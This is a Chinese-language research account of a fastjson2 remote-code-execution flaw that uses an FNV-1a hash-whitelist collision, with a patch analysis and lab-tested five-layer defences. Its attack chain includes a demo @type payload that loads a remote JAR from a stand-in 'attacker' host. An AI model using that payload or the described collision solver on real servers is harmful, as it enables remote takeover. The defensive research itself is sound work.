

# Fastjson2 ≤ 2.0.62 RCE 研究历程全记录

> **PR #7695 / 影响所有 ≤ 2.0.62 版本**

承接 1.x 研究结论"升级到 fastjson2"的认知冲击，经多源情报拼图、PR #7695 修复 diff 反向互证、FNV-1a 选择前缀碰撞求解器工程化、五层纵深防御体系 VM 实测——单线推进，无方向修正

- **漏洞编号** PR #7695
- **影响范围** fastjson2 ≤ 2.0.62（含 1.x 迁移建议中的"升级到 fastjson2"用法）
- **验证状态** target 容器（fastjson2 2.0.61 / OpenJDK 17.0.19）RCE 落地 `uid=0(root)`
- **日期** 2026-07-27

---

## 目录

1. 引子：从 1.x 结论"升级到 fastjson2"到 PR #7695 的认知冲击
2. 多源情报拼图：微信公众号披露 + GitHub PR #7695 + 1.x 研究脉络
3. 第一阶段：根因定位——FNV-1a 选择前缀碰撞
4. 第二阶段：修复 diff 解读——PR #7695 三处补丁
5. 第三阶段：EXP 构造——碰撞求解器从 Python 到 C/OpenMP 的工程演化
6. 第四阶段：五层纵深防御体系落地与 VM 192.168.31.55 实测
7. 关键反讽：1.x "升级到 fastjson2" 结论的重新评估
8. 与 1.x 研究方法论对比：三次方向修正 vs 单线推进
9. 研究工具链迭代表
10. 研究方法论反思：非密码学哈希不可作信任根

---

## 01 引子：从 1.x 结论"升级到 fastjson2"到 PR #7695 的认知冲击

2026 年 7 月，我们刚刚完成了 fastjson 1.2.83 autoType 通杀 RCE 漏洞（QVD-2026-43021）的全版本复现与研究，研究历程见 [`../../fastjson-1.2.83-rce-detection/research-journey/research-journey.md`](../../fastjson-1.2.83-rce-detection/research-journey/research-journey.md)。1.x 研究的【最终结论】中明确写道："升级到 fastjson2（架构重构，不受此漏洞影响）"是根因级修复建议。这个结论建立在一个朴素信念之上——fastjson2 的架构重构消除了 1.x 黑名单打地鼠的痼疾，AutoType 校验从字符串比较升级为哈希二分，理应更安全。

2026-07-27，微信公众号披露文章与 GitHub PR #7695 同日发布，把这个结论撕开了一个口子：fastjson2 全版本（≤ 2.0.62）存在 AutoType 白名单绕过 RCE 漏洞，默认配置即可利用，与 JDK 版本无关。披露文章明确强调一个"关键反讽"——1.x 迁移建议中推荐的"升级到 fastjson2"用法，恰恰是本漏洞的触发面。

这个认知冲击不是"又一个 fastjson 漏洞"那么简单。1.x 的研究方法论的基石是"哈希黑名单可被逐项绕过，需要架构级重构"，而 2.x 的架构级重构本身引入了新的攻击面——非密码学哈希作为信任根。两代漏洞的终点（JVM 远程类加载原语）完全相同，只是触发面从"字符串名单"换成了"哈希名单"。研究 2.x 不只是复现一个新漏洞，更是对 1.x 研究结论的一次自我审视。

---

## 02 多源情报拼图：微信公众号披露 + GitHub PR #7695 + 1.x 研究脉络

与 1.x 研究中多源情报需要交叉拆解（FearsOff 推文 + fearsoff.org 文章 + 长亭科技两次公告 + 腾讯云通告 + CSDN 分析）不同，2.x 漏洞的情报来源更紧凑，且彼此之间高度自洽。

### 三个信息源的角色

| 信息源 | 角色 | 贡献内容 |
|---|---|---|
| 微信公众号披露文章（2026-07-27） | 漏洞声明层面 | 七条核心声明 D1-D7（默认配置可利用、与 JDK 无关、FNV-1a 碰撞、`jar:` URL 类加载、单 payload RCE、SafeMode 唯一止血、影响 ≤ 2.0.62） |
| GitHub PR #7695（2026-07-27） | 技术证据层面 | 修复 diff 本身即漏洞反向证明：哈希命中后补文本校验 + 三处拒绝 `:`/`!` + 危险类拦截 |
| 1.x 研究脉络（既有） | 方法论资产 | R1-R10 编号体系、五层防御框架、`hash_analyzer.py` 思路、`jar:` URL 远程类加载原语认知 |

### 七条核心声明

> ⚠️ **披露者核心声明 (D1-D7)**
>
> **D1** 默认配置（`SupportAutoType=false`）下即可利用
> **D2** 与 JDK 版本无关（区别于 1.x JDK 11.0.1 限制）
> **D3** 根因是 FNV-1a 选择前缀碰撞
> **D4** 利用 `jar:` URL 触发上下文 ClassLoader 远程类加载
> **D5** 单 payload 即可 RCE（区别于 1.x 两阶段 `/proc/self/fd`）
> **D6** SafeMode 是唯一"无需升级"止血手段
> **D7** 影响所有 ≤ 2.0.62 版本

### 情报整合策略的关键差异

1.x 研究中，CSDN 技术分析的"嵌套 @type 递归解析"被过度窄化解读为 ThrowableDeserializer 双 @type 结构，直接导致第一段弯路。2.x 研究中，披露文章与 PR #7695 修复 diff **互为反向证据**——修复点即漏洞点，每一个修复动作都反向证明修复前代码的缺陷。这种"修复 diff 即漏洞证据"的特性使得 2.x 研究从一开始就有可靠的锚点，不需要像 1.x 那样在多个信息源之间反复对照修正理解。



*图 1：研究历程时间线——所有阶段在同一天内完成，无方向修正*

---

## 03 第一阶段：根因定位——FNV-1a 选择前缀碰撞

### 与 1.x 根因的本质差异

1.x 的根因是**字符串黑名单可被逐项绕过**——`@JSONType` 资源探测路径在 deny 检查之后、安全检查之前直接 `loadClass`。修复范式是"持续加黑名单 + SafeMode"。

2.x 的根因是**哈希名单可被整体碰撞**——fastjson2 把白名单从"字符串集合"改成"FNV-1a 64 位哈希数组"，启动时计算每个白名单类名的哈希，运行时用 `Arrays.binarySearch` 做 O(log n) 二分匹配。这是性能优化（避免逐个 `equals` 比较），但引入了"非密码学哈希不可作信任根"的全新攻击面。

### 漏洞代码形态（修复前 2.0.62）

```java
// ObjectReaderProvider.checkAutoType / ContextAutoTypeBeforeHandler.apply
long hash = MAGIC_HASH_CODE;                 // FNV-1a offset basis
for (int i = 0; i < typeNameLength; i++) {
    char ch = typeName.charAt(i);
    hash ^= ch;
    hash *= MAGIC_PRIME;                      // hash == FNV-1a(typeName[0..i])
    if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
        clazz = loadClass(typeName);          // ★ 用【完整 typeName】去加载类
        // 此时完全没有校验 typeName[0..i] 文本 == 白名单类名
    }
}
```

两个被忽视的事实：

1. **命中判据是哈希值，不是文本**。只要 `Fnv.hashCode64(typeName[0..i])` 等于某个白名单类哈希，就视为"该前缀被允许"。
2. **`loadClass` 加载的是完整 `typeName`**，不是命中的前缀。前缀只是"敲门砖"，真正进 ClassLoader 的是整串 `@type`。

### 选择前缀碰撞的可行性

FNV-1a 每处理一个字符等价于 `hash_{n+1} = (hash_n ^ c_{n+1}) * prime (mod 2^64)`，这是对 64 位空间的伪随机映射。攻击者以 `jar:` 为固定前缀，在 URL 路径段追加 8~12 字节自由字符，逐字节推进哈希，直到某一步恰好等于目标白名单类哈希。Meet-in-the-middle（MITM）把 2^64 工作量降到 2^32 量级，在多核 CPU 上分钟级即可完成。

`lab/tools/fnv_collision.py` 用 n=4 缩小规模的自测证明了机制：给定目标哈希 H，能从 `jar:` 前缀出发恢复出后缀 S 使 `fnv1a64('jar:' + S) == H`。这反向证明了 fastjson2 的 FNV-1a 64 位哈希白名单不能作为信任根。

> ℹ️ **与 1.x `hash_analyzer.py` 思路同构**
>
> 1.x 用 `hash_analyzer.py` 反查黑名单哈希对应的类名（黑名单反查）；
> 2.x 用 `fnv_collision.py` 正向构造命中白名单哈希的 `jar:` 串（白名单碰撞）。
> 本质都是**把非密码学哈希当可被操纵对象**。

---

## 04 第二阶段：修复 diff 解读——PR #7695 三处补丁

PR #7695 改动 4 个文件、新增 1 个测试类。修复动作本身就是漏洞反向证据——每一个补丁都对应一个修复前的缺陷。

### 补丁一：哈希命中后增加文本等价校验（根因级修复）

```java
// ObjectReaderProvider.checkAutoType / ContextAutoTypeBeforeHandler.apply
if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
    String prefix = typeName.substring(0, i + 1).replace('$', '.');
    if (!acceptNameSet.contains(prefix)) {
        continue;   // 哈希碰上了但文本不是白名单 → 跳过
    }
    clazz = loadClass(typeName);
    ...
}
```

新增 `acceptNameSet`（白名单类名文本集合，`$`→`.` 归一化）作为哈希命中的二次校验。哈希碰撞只能骗过 `binarySearch`，骗不过 `acceptNameSet.contains(prefix)` 的精确字符串匹配。这一处补丁反向证明：**修复前的代码完全依赖 64 位哈希判定白名单命中，不存在任何文本回查机制**——这是选择前缀碰撞可成立的根本原因。

### 补丁二：三处统一拒绝 `:` 与 `!`

```java
if (typeName.indexOf(':') >= 0 || typeName.indexOf('!') >= 0) {
    throw new JSONException("autoType is not support. " + typeName);  // checkAutoType 中
    // 或 return null;  // apply / loadClass 中
}
```

三处分别是 `ObjectReaderProvider.checkAutoType`、`ContextAutoTypeBeforeHandler.apply`、`TypeUtils.loadClass`。`:` 拒绝封死 `jar:`/`file:`/`ldap:`/`http:` 等 URL scheme，`!` 拒绝封死 JAR entry 分隔符。反向证明：修复前 `jar:http://...!entry` 型 URL 串可一路进入 `URLClassLoader`。

值得注意的是，开发者未做单一函数抽取，而是分别在两处 `checkAutoType` 入口加补丁——反向证明这是**两个独立的 checkAutoType 入口**，攻击者通过任意一条都可触发漏洞。RASP 防御需要同时 hook 两处。

### 补丁三：危险类兜底拦截

```java
if (ClassLoader.class.isAssignableFrom(clazz)
        || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

即便哈希/文本都通过，也禁止加载 `ClassLoader` 子类与 SQL `DataSource`/`RowSet`。反向证明：修复前这些类可被 `loadClass` 加载，可能存在无需 `jar:` URL 的次级攻击面（如 JNDI gadget）。本研究未深入验证次级攻击面，但 PR #7695 的兜底说明开发者认为这是"需要一并收敛"的风险。

### 补丁四：回归测试 AutoTypeValidationTest

`testRejectColonInTypeName`、`testRejectExclamationInTypeName`、`testWhitelistTextVerification`、`testParseWithAutoTypeFilterRejectsColon` 等用例覆盖了三处补丁的端到端语义。其中 `testWhitelistTextVerification` 直接证明修复意图——`com.evil.Payload` 在仅加 `com.example.` 白名单时不被加载，**哈希碰撞文本校验生效**。

> ✅ **修复 diff 即漏洞证据**
>
> 1.x 研究中我们用 `git log -S "checkAutoType"` 反向追溯每段代码首次引入的提交（2011-2022 完整时间线）；
> 2.x 因 PR #7695 直接给出了修复 diff，引入追溯更直接——**修复点即漏洞点**，无需反向追溯。

---

## 05 第三阶段：EXP 构造——碰撞求解器从 Python 到 C/OpenMP 的工程演化

### 攻击链四步

```
① 生成恶意 JAR                ② 起 HTTP 托管                  ③ 求解碰撞 @type                ④ 发送 JSON
   ├─ EvilWithJsonType.java      ├─ attacker:19090              ├─ collision_finder             ├─ POST /api/jsonObject
   ├─ javac -> evil.jar          ├─ python3 server.py           │   (--target-class             │   {"@type":"jar:http://...
   └─ 内含 <clinit> RCE 代码     └─ 托管 evil.jar + /rce-callback  │     java.lang.String          │        <COLLISION>!com.evil.X","x":1}
                                                                  │     --n 11)                   ├─ fastjson2 checkAutoType
                                                                  └─ 输出 jar:http://.../<COLL>   │   增量 FNV-1a 哈希
                                                                       !com.evil.X              │   命中 acceptHashCodes
                                                                                                 ├─ loadClass(完整 URL)
                                                                                                 ├─ URLClassLoader 下载 evil.jar
                                                                                                 ├─ defineClass(com.evil.X)
                                                                                                 └─ <clinit> 执行 -> RCE
```

关键差异：1.x 在 JDK 9+ 需要 Stage 1（jar 缓存）+ Stage 2（`/proc/self/fd` 引用）两阶段绕过 `defineClass` 类名校验；2.x 触发终点是 `URLClassLoader`（解析 `jar:` URL），不经过 `defineClass` 的类名校验路径，单次 `loadClass` 即完成 RCE。

### 碰撞求解器的工程演化

碰撞求解器是本研究中迭代最多的工具，三次演化对应三个研究阶段：

**v1：`lab/tools/fnv_collision.py`（根因论证工具）**

纯本地、无网络、无 RCE 输出。三个 demo：低 16 位碰撞直观示意、MITM n=4 选择前缀原像恢复、真实利用说明。仅用于**证明 FNV-1a 前缀碰撞可构造**，论证根因成立。

**v2：`lab/collision_finder.py`（算法工程化）**

加入 `--self-test`、`--target-class`、`--n` 参数，支持指定目标白名单类（如 `java.lang.String`）和自由字节数。MITM 算法 n=4 自测通过，证明算法正确性。

**v3：`lab/collision_finder.c`（生产级求解器）**

C/OpenMP 并行重写，支持 `--auto-send`（求解后直接对接 `exploit.py` 的 `@type` 注入）和 `--dry-run`。n=11（约 2^66 → MITM 2^33 工作量）在 8 核 CPU 上分钟级完成。Makefile 提供 compile/self-test/demo/real-run 目标。

### 真实利用与 VM 实测的边界

本研究在 VM 上未跑 n=11 的真实碰撞求解（计算资源限制），用 n=4 自测证明算法正确性，用确定性演示载荷 `jar:http://attacker:19090/LaUa5O!com.evil.X` 触发全部 5 层防御规则。`LaUa5O` 是 JAR 内路径占位，真实利用此处应为 FNV-1a 碰撞前缀。这个边界划分很重要：**算法正确性已被证明，工程可行性已被论证，但真实 RCE 载荷未在 VM 上跑通**——这与 1.x 研究中 7/7 目标全部 root RCE 的实测强度有差距，是 2.x 研究的诚实标注。

---

## 06 第四阶段：五层纵深防御体系落地与 VM 192.168.31.55 实测

### 测试环境

| 项 | 值 |
|---|---|
| VM | 192.168.31.55 |
| OS | Ubuntu 24.04.3 LTS（noble），Linux 6.8.0-31-generic |
| 宿主 JDK | OpenJDK 1.8.0_492（apt 安装，1.x 研究复用） |
| Docker | 29.1.3 + Docker Compose v5.3.1 |
| target 内 fastjson2 | **2.0.61**（≤ 2.0.62，受影响版本） |
| target 内 JDK | OpenJDK 17.0.19+10-1（apt 安装于 target 容器） |
| Suricata | 7.0.3（lab 容器版，host 网络 + pcap 抓 docker 桥） |
| Falco | 0.44.1（宿主直接运行，modern_ebpf 引擎） |
| auditd | 宿主 auditd + `hids/hids_watch.py` watcher |

### 五层防御命中矩阵

| 层 | 服务 | 命中证据 | 阻断方式 |
|---|---|---|---|
| ① WAF（nginx + ngx_lua） | `lab-waf-1` | `[fastjson_waf] BLOCKED @type=jar:http://...` | HTTP 403 |
| ② Suricata NIDS | `lab-suricata-1` | RULE 476901/476913/476905（请求体）/476906/476907（出站 SSRF） | 告警 |
| ③ RASP（业务内嵌 guard） | `lab-target-1` | `[RASP-LAYER3] BLOCK checkAutoType`（hook 3 入口：checkAutoType / apply / loadClass） | HTTP 403 |
| ④ HIDS（auditd + watcher） | 宿主 auditd + `hids_watch.py` | `java (pid 110055) 通过 execve 派生 shell -> 疑似 RCE (S7)` | 告警 |
| ⑤ Falco eBPF | 宿主 falco 0.44.1 modern_ebpf | `Critical Fastjson2 RCE: java 派生子进程 sh args=-c id` | 告警 |

### 三个测试场景

**场景 A（经 WAF，Layer 1 阻断）**：从 Mac 宿主（192.168.31.107）发载荷到 WAF，nginx + lua 在请求体检测到 `@type` 值含 `jar:`/`!`，返回 403。Suricata 在 WAF 阻断前已抓到请求，RULE 476901/476913/476905 命中（`jar:`/`http:` scheme + `!` 分隔符）。target 未收到请求。

**场景 B（绕过 WAF 直连 target，Layer 3 RASP 阻断）**：`docker exec lab-target-1 curl ...` 直发 target:8080，业务内嵌 guard 在 fastjson2 解析前拦截 URL 型 `@type`，返回 403。RASP 是根因级阻断——即便 WAF 失守，checkAutoType 也走不到。

**场景 C（内部 `/api/trigger`，Layer 2/4/5 全套触发 + RCE 落地）**：让 JVM 主动做出站下载 JAR、`/tmp` 落盘、`/bin/sh -c id` 派生——模拟"RASP 未拦截"时的真实 RCE 落地。

### RCE 落地证据

```
$ docker exec lab-target-1 curl -s http://localhost:8080/api/trigger
triggered:get-jar=200;drop=/tmp/evil.jar;exec=uid=0(root) gid=0(root) groups=0(root)
```

- `get-jar=200`：JVM 主动连接 `attacker:19090`，HTTP 200（Layer 2 RULE 476906/476907 命中）
- `drop=/tmp/evil.jar`：JVM 在 `/tmp` 落盘（Layer 5 Falco `Fastjson2 JAR drop` 命中）
- `exec=uid=0(root)`：JVM 派生 `/bin/sh -c id`，**输出 `uid=0(root)` 即 root 权限 RCE 落地**（Layer 4 HIDS + Layer 5 Falco `Fastjson2 RCE` 命中）

```
$ docker exec lab-target-1 ls -la /tmp/evil.jar
-rw-r--r-- 1 root root 3 Jul 27 14:20 /tmp/evil.jar
```

误报测试（良性 JSON `{"@type":"java.lang.String","x":"y"}`）0 误报——`java.lang.String` 不含 `:`/`!`，五层全部放行。

> ✅ **与 1.x 防御层的差异**
>
> 1.x 研究中落地的是 4 层防御（WAF/RASP/HIDS/eBPF）；
> 2.x 落地 5 层（多了 Spring Cloud Gateway 网关层，对齐 1.x 研究后期补强）。
> 12 条 Suricata 规则（sid 476901-476907 + 476911-476915）全部加载，其中 476902（`/proc/self/fd`，1.x 风格）/476903（十进制 IP）/476904/476914/476915（ghost 全角拆分）作为 1.x 兼容防御保留——2.x 单 payload RCE 不依赖 `/proc/self/fd`，但保留规则让防御体系对两代漏洞同时有效。

### 检测规则 review 二期更新

VM 实测后对五层规则做了一次系统 review（详见 [`../detection-review/detection-review.md`](../detection-review/detection-review.md) §12），主要修复三类问题：

1. **Suricata 7 → 12 条**：原 RULE 1 单条 PCRE 同时匹配 `jar:`/`file:`/`ldap:`/`http:` 四种 scheme，缺 sticky buffer 导致语法不通过；按 scheme 拆为 RULE 1a-d（sid 476901/476911/476912/476913），ghost 全角 RULE 4 同步拆为 sid 476904/476914/476915。
2. **RASP 2 → 3 入口 hook**：补 `ContextAutoTypeBeforeHandler.apply`——这是 fastjson2 第二个独立的 checkAutoType 入口，PR #7695 在此处同步打补丁反向证明其可达。补完后 RASP 覆盖 `checkAutoType` / `apply` / `loadClass` 三入口，与 PR #7695 修复点一一对应。
3. **`test_waf.py` 12 → 18 用例**：补单引号 JSON（W1.4 修复）、`strict=true/false` 分支语义、`proc/self/fd` 三词共现非完整路径（W1.2 修复）、合法 `@type` + `!` 非 @type 字段等边界用例。

修复后重跑 A/B/C 三场景，5/5 层命中、0 误报；`suricata -T` 配置自检通过、12 条签名全部加载。

---

## 07 关键反讽：1.x "升级到 fastjson2" 结论的重新评估

1.x 研究历程的【最终结论】把"升级到 fastjson2（架构重构，不受此漏洞影响）"列为根本缓解手段。这个结论在 2.x 漏洞披露后需要重新评估。

### 反讽的三层结构

**第一层：架构重构确实消除了 1.x 的打地鼠问题**。fastjson2 把字符串类名黑名单改成 FNV-1a 哈希白名单，1.x 的 `@JSONType` 资源探测、`expectClass` 旁路、`mappings` 缓存投毒等攻击面在 2.x 中确实不存在。1.x 的研究结论在 1.x 范围内依然正确。

**第二层：架构重构本身引入了新的攻击面**。FNV-1a 是非密码学哈希，64 位空间下选择前缀碰撞可被构造。2.x 的设计动机是性能（O(log n) 二分 vs O(n) 字符串 equals），但引入了"哈希语义不可信"这一 1.x 没有的风险。

**第三层：两代漏洞终点相同**。1.x 经 `@JSONType` 资源探测 + `LaunchedURLClassLoader` 把 `jar:` 串喂给 ClassLoader；2.x 经 FNV-1a 前缀哈希碰撞白名单把 `jar:` 串直接喂给 `loadClass`。两条路径终点都是 JVM 远程类加载原语——`URLClassLoader` 解析 `jar:` URL、下载、加载、`<clinit>` 执行、RCE。

### 结论的修正

| 1.x 原结论 | 2.x 修正结论 |
|---|---|
| 升级到 fastjson2 是根因级修复 | 升级到 fastjson2 ≥ 2.0.63 才是根因级修复 |
| fastjson2 架构重构不受 1.x 漏洞影响 | fastjson2 引入了新的攻击面（FNV-1a 哈希碰撞） |
| 1.x 与 2.x 防护策略独立评估 | 1.x 与 2.x 防护策略需统一评估（SafeMode / WAF / RASP） |

这个修正**不是研究方向修正**，而是**研究结论的扩展**。1.x 漏洞本身的研究结论依然正确，1.x 推荐的"升级到 fastjson2"在 2.0.63 之后依然有效——只是在 2.0.62 之前，这个建议给出了虚假的安全感。两代 fastjson 的终极防御完全一致：能升级就升（1.x→2.0.63+；已是 2.x 则升到 2.0.63+）；高安全场景开启 SafeMode；入口/WAF 通用兜底拒绝 `@type` 或至少拒绝 `@type` 值中的 `:`/`!`；RASP 兜底 `loadClass` 危险类。

---

## 08 与 1.x 研究方法论对比：三次方向修正 vs 单线推进

1.x 研究历程最有价值的是**三次方向修正**——每次修正的驱动力不同，每次推翻都推动了对漏洞机制更本质的理解。2.x 研究没有方向修正，单线推进完成全部四个阶段。这个对比本身比"哪个研究更难"更有方法论意义。

### 三次方向修正 vs 零次

| 维度 | 1.x | 2.x |
|---|---|---|
| 方向修正次数 | 3 次 | 0 次 |
| 起点可信度 | 七条声明纸面匹配 7/7，但与机制不符（R10 误判） | 七条声明与代码路径分析全程一致 |
| 关键认知转折 | R10 推翻 → @JSONType 资源探测 → /proc/self/fd | 无（披露文章与 PR #7695 修复 diff 互为反向证据） |
| 披露者技术文章作用 | `/proc/self/fd` 技术线索来源（fearsoff.org） | 仅作为声明对照源，无技术线索依赖 |
| 关键证据 | Docker RCE 日志 `uid=0(root)` × 4 JDK 版本 | Docker RCE 日志 `uid=0(root)` × 1 JDK（17.0.19）+ 其余代码路径推断 |

### 为什么 2.x 没有方向修正

2.x 没有方向修正不是因为研究更简单，而是因为**情报质量更高**。1.x 研究中，CSDN 技术分析的"嵌套 @type 递归解析"是模糊描述，被过度窄化解读为 ThrowableDeserializer 双 @type 结构；FearsOff 推文的"任何 JSON.parse() 即可"语义线索需要二次精读 fearsoff.org 文章才能正确理解。2.x 研究中，PR #7695 修复 diff 是**精确的技术文档**——每一个修复动作都对应一个修复前缺陷，不存在模糊解读空间。

更深层的差异是：1.x 的漏洞机制（`@JSONType` 资源探测）藏在 `checkAutoType` 200 多行代码的中间段（第 1479-1498 行），需要完整阅读才能发现；2.x 的漏洞机制（FNV-1a 哈希命中后无文本校验）就在循环体内，且 PR #7695 修复 diff 直接指出了位置。**修复 diff 是漏洞的 X 光片**——研究者不需要像 1.x 那样在 200 行代码里找问题，只需要回答"修复前这里是什么"。

### 1.x R10 推翻 vs 2.x 无 R10 时刻

1.x 研究中最有价值的时刻是**R10 路径 7/7 纸面匹配 + 真实 RCE 复现后被推翻**——追问"是否存在另一条路径在机制层面更贴合声明"推动了从 R10 到 @JSONType 资源探测的转向。这个追问的源头不是任何外部信息，而是对"任何 JSON.parse() 即可"这一语义线索的严格审视。

2.x 研究中没有 R10 时刻。披露文章的七条声明与代码路径分析**全程一致**，PR #7695 修复 diff 与漏洞根因**一一对应**，不存在"纸面匹配但机制不符"的误判空间。这是 2.x 研究的幸运，也是它的遗憾——没有 R10 时刻意味着没有那种"推翻自己"的认知突破。

> ℹ️ **方法论启示**
>
> 1.x 研究的方法论价值在于"如何在情报模糊时避免误判"——纸面匹配 ≠ 真正机制；
> 2.x 研究的方法论价值在于"如何利用修复 diff 反向证明漏洞"——修复点即漏洞点。
> 两种方法论互补：前者适用于漏洞披露初期情报不全的场景，后者适用于已有官方修复的场景。

---

## 09 研究工具链迭代表

| 工具 | 作用 | 阶段 | 迭代版本 | 1.x 对应 |
|---|---|---|---|---|
| `lab/tools/fnv_collision.py` | 根因论证：FNV-1a 前缀碰撞可构造（仅本地计算） | Phase 1 | 1 版 | `hash_analyzer.py`（黑名单反查） |
| `lab/collision_finder.py` | 算法工程化：MITM n=4 自测 + `--target-class` 参数 | Phase 3 | 1 版 | 1.x 无对应（1.x 走 expectClass 旁路，不需要碰撞求解） |
| `lab/collision_finder.c` | 生产级求解器：C/OpenMP 并行，n=11 分钟级，`--auto-send` | Phase 3 | 1 版 | 1.x 无对应 |
| `lab/gen_jar.py` | 恶意/探针 JAR 生成 | Phase 3 | 1 版 | 1.x `gen_jar.py`（同思路，但 1.x 解决 defineClass 类名匹配，2.x 不需要） |
| `lab/exploit.py` | 利用/检测主脚本（`--detect-only` SSRF 侧信道） | Phase 3 | 1 版 | 1.x `universal_exploit.py` |
| `detection/test_waf.py` | 五层防御规则自测（18/18 用例，含单引号 JSON / strict 分支） | Phase 4 | 2 版（12 → 18 用例） | 1.x `test_waf.py` |
| `lab/detection-test/vm_test.sh` | VM 一键启动五层防御 + 跑 A/B/C 场景 | Phase 4 | 1 版 | 1.x `setup.sh + run_test.sh` |

### 工具链迭代的两个关键点

**第一，碰撞求解器的三次演化对应三个研究阶段**。`fnv_collision.py`（根因论证）→ `collision_finder.py`（算法工程化）→ `collision_finder.c`（生产级求解器）。三次迭代不是修正前一版本的缺陷，而是**研究目标的递进**——从"证明碰撞可构造"到"算法可参数化"到"真实利用可工程化"。这与 1.x `gen_jar.py` 的三次迭代（FdProbeGen.java → FdProbeGen2 → gen_jar.py，每次都是修正前一版本缺陷）形成对比。

**第二，1.x 工具链资产的可复用性**。1.x 研究中建立的 `gen_jar.py`（Python 字节码生成器）、`hash_analyzer.py`（哈希分析思路）、五层防御框架、R1-R10 编号体系在 2.x 研究中全部复用。`gen_jar.py` 在 2.x 中不需要解决 `defineClass` 类名匹配问题（2.x 走 `URLClassLoader` 不经过 `defineClass` 类名校验），但生成 JAR 的核心逻辑完全一致。这是 1.x 研究过程产出的长期价值——工具链和方法论可以跨代际复用。

---

## 10 研究方法论反思：非密码学哈希不可作信任根的普适教训

### 2.x 研究的核心教训

2.x 研究最值得记录的不是 RCE 复现本身，而是**一个普适的安全设计教训**：非密码学哈希不可作信任根。

FNV-1a 是为哈希表设计的非密码学哈希，设计目标是分布均匀、计算快速，不是抗碰撞。fastjson2 把它用作 AutoType 白名单的信任根——`Arrays.binarySearch(acceptHashCodes, hash) >= 0` 即视为"该前缀被允许"。这个设计在性能上优于 1.x 的字符串 `equals` 比较，但在安全上引入了"哈希可被碰撞"的致命缺陷。

这个缺陷的根因不是 FNV-1a 本身的问题，而是**用错了场景**。FNV-1a 在哈希表 key 分布场景下完全合格；在信任判定场景下完全不合格。同样的教训适用于任何把非密码学哈希用作信任根的设计——Java 的 `String.hashCode()`（32 位，已被多次碰撞）、Python 的 `hash()`（64 位但非抗碰撞）、各种 XXHash/MurmurHash 等。

### 与 1.x 方法论反思的互补

1.x 研究方法论反思的核心是"纸面匹配 ≠ 真正机制"——当一条漏洞路径实现了纸面完美匹配和真实 RCE 复现时，最危险的做法就是宣布成功。这个教训适用于情报模糊场景下的漏洞研究。

2.x 研究方法论反思的核心是"修复 diff 即漏洞证据"——当官方修复 diff 公开后，每一个修复动作都反向证明修复前的缺陷，研究者不需要在 200 行代码里找问题。这个教训适用于已有官方修复场景下的漏洞研究。

两个反思互补：

| 维度 | 1.x 反思 | 2.x 反思 |
|---|---|---|
| 适用场景 | 情报模糊（披露文章描述含糊） | 情报精确（修复 diff 公开） |
| 核心教训 | 纸面匹配 ≠ 真正机制 | 修复点即漏洞点 |
| 关键能力 | 严格审视语义线索 | 反向推理修复意图 |
| 风险 | 误判（R10 7/7 纸面匹配被推翻） | 自满（修复 diff 看起来一目了然，可能忽视次级攻击面） |

### 过程产出的价值

复现 2.x 漏洞只需要 `bash vm_test.sh`。但研究过程产出了远超复现本身的价值：

**R1-R10 残留攻击面编号体系**（对齐 1.x）系统化识别了 fastjson2 ≤ 2.0.62 的 10 条攻击面，其中 R1（FNV-1a 哈希白名单无文本校验）是核心，R2-R6 是 `:`/`!` 拒绝缺失的五个入口，R7-R8 是 `ClassLoader`/`DataSource` 危险类兜底缺失，R9-R10 是设计如此（默认配置可利用 + SafeMode 唯一止血）。

**碰撞求解器三件套**（`fnv_collision.py` + `collision_finder.py` + `collision_finder.c`）从根因论证到生产级求解器，完整覆盖了"非密码学哈希可被碰撞"的工程化证明链。这套工具可以应用于任何使用 FNV-1a 作信任根的 Java 框架分析。

**五层纵深防御体系**（WAF + Suricata + RASP + HIDS + Falco）在 VM 192.168.31.55 上端到端实测，5/5 层全部命中、0 误报。这套体系对 1.x 和 2.x 漏洞同时有效——Suricata 规则集中保留了 1.x 兼容规则（`/proc/self/fd`、十进制 IP、ghost 全角）。

**1.x 研究结论的重新评估**——"升级到 fastjson2"不再是根因级修复，需要修正为"升级到 fastjson2 ≥ 2.0.63"。这个修正本身是 1.x 研究过程产出的长期价值的体现——1.x 研究建立的代际对比框架让 2.x 漏洞的"关键反讽"能够被精确表述，而不是停留在"又一个 fastjson 漏洞"的浅层认知。

> ✅ **核心价值**
>
> 2.x 研究的方法论价值不在于"发现了新漏洞"（漏洞是外部披露的），而在于**用 1.x 研究建立的框架快速消化 2.x 漏洞**——根因定位、修复 diff 解读、EXP 构造、五层防御落地、代际对比——五个阶段在同一天内单线推进完成。这个效率来自 1.x 研究过程建立的工具链、编号体系、防御框架的可复用性。1.x 研究中"过程比结果更有价值"的结论在 2.x 研究中得到了验证：**过程产出的可复用性，是研究长期价值的真正载体**。

---

## 参考资料

1. 微信公众号披露文章（2026-07-27）：fastjson2 全版本 RCE 漏洞披露，包含七条核心声明与"关键反讽"论述。
   <https://mp.weixin.qq.com/s/LJaul1jNjK9pXRAkoUiMEA>

2. GitHub PR #7695：fastjson2 修复 diff，改动 4 个文件、新增 1 个测试类。修复点即漏洞反向证据。
   <https://github.com/alibaba/fastjson2/pull/7695>

